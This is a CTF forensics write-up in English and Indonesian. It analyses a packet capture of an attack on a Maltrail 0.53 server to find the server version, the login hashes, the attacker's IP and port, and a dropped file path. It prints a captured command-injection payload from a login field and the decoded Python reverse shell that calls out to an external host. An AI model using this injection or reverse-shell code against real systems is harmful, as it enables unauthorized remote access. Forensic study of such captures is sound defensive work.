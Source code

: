 # **Analyze the Bad Hacker!**

**Difficulty:** Tedious and Meticulous (Personal Rating)  
**Flag:** `HCS{f0R3n51k_1tu_m3n4rik}`

---

## **EN**

For this challenge, we were given this `.pcapng` file, titled `budi.pcapng`.

At first, I was a bit turned down by this. Mostly due to the fact that I didn't have wireshark installed on my current machine, I didn't want to boot up my kali live instance, and that I'm currently on a relatively slow internet connection. So installation of wireshark could, and did, prove to be quite the hassle, especially due to the time limit later on.

Anyway, so what I did was, I looked for an online pcap viewer instead, and found `https://apackets.com/`.

Uploading the pcap file there results in this "analyzed" result:
![A-packets analysis](./assets/image.png)

1. First question asked for the name and version of the server that was analyzed, so what I did was I looked through HTTP Communication, specifically `GET`, because usually `GET` response headers also include the server type/software that returned the response. What I found was this:  
    ![GET Request headers](./assets/image-1.png)  
   `Maltrail/0.53`  
   So that's question 1 down.

2. The second question asked for the credentials used by the hacker to successfully log into the server a second time in the format of `username:hash`. Assuming that `hash` is a hashed password or possibly a token of some sort, I looked through `POST` requests. After looking through them, I found these candidates:

   1. `username=admin&hash=ad46649365c29fdaf9e12b95582e2e2c197f2fdea2c22806e84aa890ed2c2bd8&nonce=TIjxAmLEQZji`
   2. `username=admin&hash=56dd090935480e98650bc29cd0734ca2505f4106a315b223d9e6e2d9bc3edd73&nonce=YROwte2n59v1`
   3. `username=admin&hash=56dd090935480e98650bc29cd0734ca2505f4106a315b223d9e6e2d9bc3edd73&nonce=YROwte2n59v1`

   After some trial and error, I pinned it down to the third one: `admin:56dd090935480e98650bc29cd0734ca2505f4106a315b223d9e6e2d9bc3edd73`

3. For the third question, it asked for the IP and port that the hacker used to access the server, probably the post-exploitation machine.

While looking at the `POST` requests for number 2, I noticed that a couple packets were looking like this:

```
username=;`echo+"cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxvcyxwdHk7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTU5LjIyMy4zMy4yNDAiLDk5OTkpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7b3MuZHVwMihzLmZpbGVubygpLDEpO29zLmR1cDIocy5maWxlbm8oKSwyKTtwdHkuc3Bhd24oIi9iaW4vc2giKSc="+|+base64+-d+|+sh`
```

The use of `;` was clearly to escape some sort of templating mechanism, so whatever is after that is probably an RCE. I took the base64 encoded string and decoded it:

![RCE Base64 decoded](./assets/image-2.png)

```sh
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("159.223.33.240",9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

To sum it up, it basically opens up a shell then connects it through a socket connection to... the post-exploitation device!  
`159.223.33.240:9999`  
So that's 3 down.

4. For number 4, it asked for the absolute path of the file that the hacker put on the server post-exploit.

The analysis from apackets wasn't deep enough to get to socket packets which are raw TCP, so I had to install wireshark to do the packet-by-packet analysis. Dumped into wireshark, we see this:
![A LOT OF PACKETS](./assets/image-3.png)
A **LOT** of packets, so to narrow it down, basing off number 3, we filter for TCP port 9999, that narrows it down to 87 packets.
![A lot to just 87 packets](./assets/image-4.png)
Now it's really just a matter of us scrolling down frame by frame to analyze what the post-exploit shell did.

1. At 2624-2625 the shell executes an `ls` command

![ls command](./assets/image-5.png)

2. At 2648 we see that the `ls` returned a `/`-esque output

![Looks like an "ls /" output](./assets/image-6.png)

3. Then, at 2742-2743, it does a `cd` to `/tmp`

![cd to `/tmp`](./assets/image-7.png)

4. Finally, at 2767-2768, the shell pipes a shell script to a file titled `.hmm.sh`

![hmm.sh](./assets/image-8.png)

To recap, it moved to `/tmp` and writes a file named `.hmm.sh`, so the absolute path is `/tmp/.hmm.sh`.

🎉🎉🎉
![Finished!](./assets/image-9.png)

## **ID**

Untuk challenge yang ini, kita diberikan file `.pcapng` bernama `budi.pcapng`.

Awalnya aku sudah nggak enakan ketika melihat format filenya. Terutama karena aku belum punya wireshark di deviceku saat ini, aku nggak mau boot up kali, dan internetku lagi lemot. Jadi kalau menginstall wireshark mungkin, dan ternyata emang, ribet.

Jadi, aku mencari pcap viewer yang online, dan menemukan `https://apackets.com/`.

Setelah di upload pcapnya, keluarlah hasil yang telah teranalisis:  
![A-packets analysis](./assets/image.png)

1. Pertanyaan pertama meminta nama dan versi software yang digunakan pada server yang sedang dianalisis, jadi yang aku lakukan pertama adalah melihat bagian _HTTP Communication_, spesifiknya `GET`, karena biasanya header respons `GET` menyebutkan software dan versi dari server yang merespon. Yang aku temukan ini:  
   ![GET Request headers](./assets/image-1.png)  
   `Maltrail/0.53`  
   Soal 1 selesai.

2. Yang kedua meminta kredensial yang digunakan _hacker_ untuk log in ke server untuk yang kedua kalinya dengan format `username:hash`. Dengan mengasumsikan `hash` itu _password_ yang di-_hash_ ataupun sejenis token, aku melihat tiap `POST` request dalam pcap. Setelah melihat semuanya, aku menemukan kandidat-kandidat ini:

   1. `username=admin&hash=ad46649365c29fdaf9e12b95582e2e2c197f2fdea2c22806e84aa890ed2c2bd8&nonce=TIjxAmLEQZji`
   2. `username=admin&hash=56dd090935480e98650bc29cd0734ca2505f4106a315b223d9e6e2d9bc3edd73&nonce=YROwte2n59v1`
   3. `username=admin&hash=56dd090935480e98650bc29cd0734ca2505f4106a315b223d9e6e2d9bc3edd73&nonce=YROwte2n59v1`

   Setelah _trial and error_, aku dapet yang ini sebagai yang benar: `admin:56dd090935480e98650bc29cd0734ca2505f4106a315b223d9e6e2d9bc3edd73`

3. Untuk pertanyaan ketiga, dia meminta IP dan port yang digunakan hacker untuk mengakses server.

Saat melihat-lihat `POST` di pertanyaan 2, aku melihat ada dua paket yang isinya begini:

```
username=;`echo+"cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxvcyxwdHk7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTU5LjIyMy4zMy4yNDAiLDk5OTkpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7b3MuZHVwMihzLmZpbGVubygpLDEpO29zLmR1cDIocy5maWxlbm8oKSwyKTtwdHkuc3Bhd24oIi9iaW4vc2giKSc="+|+base64+-d+|+sh`
```

Penggunaan `;` dalam input menunjukkan bahwa ini sebuah escape dari suatu sanitasi string, jadi apapun yang setelah itu kemugkinan adalah RCE. Aku ambil string base64nya dan aku decode:

![RCE Base64 decoded](./assets/image-2.png)

```sh
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("159.223.33.240",9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

Kesimpulannya, ini ngebuka shell, terus konek ke device _hacker_ lewat socket. Dari sini kita bisa lihat IP dan portnya:  
`159.223.33.240:9999`

4. Nomor 4 meminta _absolute path_ dari file yang _hacker_ taruh lewat shell di nomor 3.

Analisis apackets kurang dalem untuk melihat paket sockets yang biasanya _raw TCP_, jadi aku terpaksa menginstall wireshark terlebih dahulu. Dimasukkan ke situ hasilnya gini:  
![A LOT OF PACKETS](./assets/image-3.png)  
**Banyak** banget paketnya, jadi untuk mengurangi jumlah kandidat, kita filter ke TCP port 9999, jadi tinggal 87 paket aja.  
![A lot to just 87 packets](./assets/image-4.png)  
Sekarang tinggal scroll tiap _frame_ aja satu-satu sampe ngerti.

1. Di 2624-2625 shellnya ngejalanin `ls`

![ls command](./assets/image-5.png)

2. Di 2648 kita lihat outputnya kurang lebih outputnya `ls /`

![Looks like an "ls /" output](./assets/image-6.png)

3. Terus, di 2742-2743, dia `cd` ke `/tmp`

![cd to `/tmp`](./assets/image-7.png)

4. Akhirnya, di 2767-2768, shellnya ngepipe shell script ke file `.hmm.sh`

![hmm.sh](./assets/image-8.png)

Jadiii, kesimpulannya, dia ke `/tmp` terus nulis file `.hmm.sh`, jadi _absolute path_-nya `/tmp/.hmm.sh`.

🎉🎉🎉
![Finished!](./assets/image-9.png)
